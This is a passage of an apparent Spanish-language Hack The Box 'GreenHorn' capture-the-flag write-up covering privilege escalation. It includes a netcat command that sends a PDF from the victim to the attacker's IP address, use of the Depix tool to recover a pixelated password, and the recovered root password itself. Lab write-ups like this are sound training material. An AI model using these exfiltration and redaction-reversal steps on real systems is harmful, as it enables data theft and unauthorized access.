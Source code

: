 muy bien si vamos al directorio home de junior encontramos lo siguiente

![](https://fallenangel666-htb.github.io/zzero.github.io//assets/images/GreenHorn/Pasted-image-20241211151852.png)

vamos a pasarnos el pdf a nuestra maquina atacante para poder verlo

vamos a usar netcat 

```bash
sudo nc -nlvp 1234 > OpenVAS_file.pdf
```
y en la maquina victima
```bash
nc 10.10.16.72 1234 < 'Using OpenVAS.pdf'
```
![](https://fallenangel666-htb.github.io/zzero.github.io//assets/images/GreenHorn/Pasted-image-20241211152414.png)

ya lo tenemos por lo que vamos a abrirlo

![](https://fallenangel666-htb.github.io/zzero.github.io//assets/images/GreenHorn/Pasted-image-20241211153028.png)
vemos que hay una contraseña pero que esta pixelada

podemos usar una herramienta llamada deplix para quitar el pixelado

para ello hacemos una captura a la parte pixelada
![](https://fallenangel666-htb.github.io/zzero.github.io//assets/images/GreenHorn/Pasted-image-20241211153322.png)

nos bajamos deplix
https://github.com/spipm/Depix

y lo ejecutamos en mi caso de esta forma:

```bash
python3 depix.py -p /home/zzero/GreenHorn/content/Captura\ de\ pantalla\ -2024-12-11\ 15-32-47.png -s images/searchimages/debruinseq_notepad_Windows10_closeAndSpaced.png -o depixelated_text.png
```
y nos da esto
![](https://fallenangel666-htb.github.io/zzero.github.io//assets/images/GreenHorn/Pasted-image-20241211153657.png)

que quiero entender que la contraseña es :
sidefromsidetheothersidesidefromsidetheotherside

![](https://fallenangel666-htb.github.io/zzero.github.io//assets/images/GreenHorn/Pasted-image-20241211153810.png)
y si que lo es 
por lo que somos root
